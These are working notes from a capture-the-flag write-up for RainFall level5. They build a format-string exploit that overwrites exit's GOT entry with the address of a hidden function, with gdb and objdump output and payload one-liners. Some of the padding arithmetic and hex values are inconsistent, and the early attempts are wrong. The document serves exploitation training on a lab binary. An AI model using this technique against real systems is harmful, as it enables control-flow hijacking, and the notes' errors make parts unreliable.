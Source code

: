 ### TIPS

Pour lancer un payload dans gdb

```bash
(gdb) run < <(python -c 'print ("salut" * 5)';)
Starting program: /home/user/level5/level5 < <(python -c 'print ("salut" * 5)';)
salutsalutsalutsalutsalut
```

---

```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

```bash
(gdb) x o
0x80484a4 <o>:	0x83e58955
```

address of function o: `080484a4` == `\xa4\x84\x04\x08`

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

offset of buffer of printf is `3` --> 4 je crois

---

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

Address of exit is `08049838` == `\x38\x98\x04\x08`

## Payload

value to write = adress of o = `0x080484a4` = `134513828`

Lets do 2 writes

value 1: `0x 0000 84a4` = `33956`
value 2: `0x 0001 0804` = `67588`

cible 1 = `08049838` == `\x38\x98\x04\x08`

cible 2 = cible1 + 2 == `804983A` == `\x3a\x98\x04\x08`

```python
exploit = ""
exploit += "\x38\x98\x04\x08"	//cible1
exploit += "\x3a\x98\x04\x08"	//cible2
exploit += "%33948x"			// padding to get to value 1 (33956 - 8 = 33948)
exploit += "%4$hn"				//write cible 1
exploit += "%33624x"			//paddding to get to value 2 (67588 - 33956 - 8 = 33624)
exploit += "%5$hn"
```

```bash
(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%3$33948x" + "%3$n" + "%3$33624x" + "%4$n")';cat) | ./level5
run < <(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%3$33948x" + "%3$n" + "%3$33624x" + "%4$n")';)
```

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the low order bytes :
It'll be 33956 - 8 = 33948, because we already wrote 8 bytes, the two 4 bytes addresses

Then the high order bytes :
It'ill be 2052 - 33956 = -31904 --> 33632 in uint with overflow

No we can construct the exploit
It'ill be : \x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn
    \x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
    \x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress 
    %33948x will write 33948 bytes of padding
    %4$hn will write 33956 (0x84a4) at address 0x08049838
    %33632x will write 33632 byte of padding
    %5$hn will write 2052 (bc of overflow) at address 0x0804983a

```bash
(python -c 'print ("\x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn")';cat) | ./level5
```

## Second try

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the high order bytes :
It'll be 2052 - 8 = 2044, because we already wrote 8 bytes, the two 4 bytes addresses

Then the low order bytes :
It'ill be 33956 - 2052 = 31904 --> 33632 in uint with overflow

No we can construct the exploit
It'ill be : \x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
    \x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress 
    \x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
    %2044x will write 2044 bytes of padding
    %4$hn will write 2052 (0x0804) at address 0x0804983a
    %31904x will write 31904 byte of padding
    %5$hn will write 33956 (0x9838) at address 0x08049838


```bash
(python -c 'print ("\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn")';cat) | ./level5
```